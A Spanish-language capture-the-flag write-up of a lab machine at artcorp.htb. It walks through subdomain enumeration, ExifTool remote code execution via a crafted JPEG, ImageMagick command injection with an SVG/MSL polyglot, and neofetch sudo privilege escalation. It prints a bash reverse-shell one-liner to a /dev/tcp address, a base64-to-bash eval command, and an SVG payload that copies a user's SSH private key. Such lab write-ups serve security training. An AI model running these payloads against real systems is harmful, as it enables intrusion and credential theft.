 ------
- Tags: #subdomain #file-upload #exiftool #image-magick #neofetch 
- -------
## Técnicas utilizadas
- Subdomain Enumeration  
- Abusing File Upload  
- Exiftool Exploitation [RCE]  
- ImageMagick Exploitation [User Pivoting] - SVG MSL Polyglot File  
- Abusing Neofetch [Privilege Escalation]
## Procedimiento

![[Pasted image 20230801170558.png]]

#### Reconocimiento
Un escaneo con **nmap** sobre el host nos muestra los siguientes puertos abiertos:
```ruby
# nmap -sCV -p22,80 10.10.11.140 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-01 18:51 UTC
Nmap scan report for 10.10.11.140
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1281175a5ac9c600dbf0ed9364fd1e08 (RSA)
|   256 b5e55953001896a6f842d8c7fb132049 (ECDSA)
|_  256 05e9df71b59f25036bd0468d05454420 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.32 seconds
```

Si lanzamos un **whatweb** sobre el aplicativo web, observamos las siguientes tecnologías corriendo por detrñas:
```ruby
# whatweb 10.10.11.140
http://10.10.11.140 [301 Moved Permanently] Apache, Country[RESERVED][ZZ], HTTPServer[Apache], IP[10.10.11.140], RedirectLocation[http://artcorp.htb]
http://artcorp.htb [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache], IP[10.10.11.140], Title[Home]
```

-----------------
#### Subdomain Enumeration 
Con el dominio que nos ofrecen, podemos enumerar **Subdominios** con **Wfuzz** o **Gobuster** y encontramos el siguiente:
```python
❯ wfuzz -c --hc=404 --hh=0 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -u http://artcorp.htb -H 'Host: FUZZ.artcorp.htb'

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://artcorp.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                        
=====================================================================

000001492:   200        9 L      24 W       247 Ch      "dev01"
```

Dentro de este nuevo subdominio, encontramos simplemente un **Uploader** de imagenes.

------------
#### Abusing File Upload
Al subir una imagen dada, podemos ver el tipico **output** de la herramienta **ExifTool**:
![[Pasted image 20230801194452.png]]


--------------
#### Exiftool Exploitation [RCE]  
El problema recae en que este **output** en especial no representa la versión en uso, pero podemos ir a ciegas probando. El siguiente [articulo](https://github.com/OneSecCyber/JPEG_RCE) muestra como podriamos explotar dicha herramienta.
La explotación consistiria en clonarnos el repositorio y ejecutar el siguiente comando:
```json
# exiftool -config eval.config runme.jpg -eval='system("echo e0293u1ekjwkjna | base64 -d | bash")'
```

Donde la data en base64 seria el tipico oneliner que nos ejecuta una reverse shell:
```json
# bash -c 'bash -i >& /dev/tcp/10.10.14.30/443 0>&1'
```

---------
#### ImageMagick Exploitation [User Pivoting] - SVG MSL Polyglot File 

Con **Pspy** podemos observar el siguiente proceso:
![[Pasted image 20230801195131.png]]

Si vemos que es ese comando, nos damos cuenta que es un binario de ImageMagick. Este comando se esta aplicando a todos los archivos que se encuntren en **Convert_Images**, asi que podemos aprovecharnos de esto para crear una **.mvg** malcioso tal y como lo hicimos en la maquina [[Most Imporant - Ariekei|Arikei]]:
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg";|ls "-la)'
pop graphic-context
```

Sin embargo, vemos que no funciona. Podemos hacer lo que viene en este [recurso](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html). Basicamente nos dice de crear un archivo **SVG** malicioso:
```xml
<image authenticate='ff" `cat /home/thomas/.ssh/id_rsa > /dev/shm/putita`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Y confirmamos la ejecución de comandos.

------------
#### Abusing Neofetch [Privilege Escalation]
Como el usuario **Thomas** contamos con un privilegio a nivel de Sudoers que nos permite ejecutar **Neofetch** como cualquier usuario del sistema:
```
Image Sudoers Privesc
```

Pues bien, **NeoFetch** cuenta con un archivo de configuración que se encuentra en **~/.config/neofetch/config.conf** en el cual podemos colar un comando pero antes de hacerlo, debemos alterar la variable de entorno XDG_CONFIG_HOME (tenemos permisos de hacerlo) a **/home/thomas/.config/** y ahora si podemos ejecutar el comando:
```
# sudo neofetch
```